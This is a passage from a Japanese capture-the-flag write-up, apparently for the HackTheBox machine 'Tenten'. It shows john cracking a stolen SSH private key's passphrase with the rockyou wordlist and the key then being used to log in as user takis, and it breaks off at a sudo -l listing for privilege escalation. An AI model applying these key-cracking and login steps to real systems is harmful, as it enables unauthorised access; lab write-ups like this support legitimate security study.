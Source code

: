 出力された`id_rsa`がどのようなRSA鍵であるかを解析するために、`john`を用いて複合する。複合を行うには、まず現在の`id_rsa`ファイルを`.john`形式に変換する必要がある。
そのため、以下のコードで、rsaを.johnに変えるためのスクリプトを検索する。出力された`/usr/share/john/ssh2john.py`を利用する。このスクリプトを使うことで、取得したRSA暗号を`john`で解析可能な`.john`形式に変換できる。
```bash
sudo find / -iname *2john* -type f 2>/dev/null
```

johnで解析したら、パスワードが「superpassword」であることがわかった。
```bash
└──╼ [★]$ sudo john --wordlist=/usr/share/wordlists/rockyou.txt rsa.john
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
superpassword    (id_rsa)     
1g 0:00:00:00 DONE (2024-12-26 10:03) 1.724g/s 1344Kp/s 1344Kc/s 1344KC/s superram..supermoy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

tenten.htbのwordpressにアカウントがあるtakisでsshにログインする
SSH接続で使用する秘密鍵を指定して、ログインをする必要がある。
この時、パスワードを求められるが、パスワードは、superpasswordである。
これで、ユーザー権限は取得できた。
```bash
ssh -i id_rsa takis@10.129.247.176
```

- **Tactics**:
    - #Tactic_初期アクセス
    - #Tactic_Escution_実行
- **Techniques**:
    - #T1190_公開アプリケーションのエクスプロイト
    - #T1059_コマンドとスクリプトインタープリタ
    - #T1078_有効なアカウント
    - その他のInitial Access/Execution関連技術...




---

# Privilege Escalation

sudo -lで
```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

```
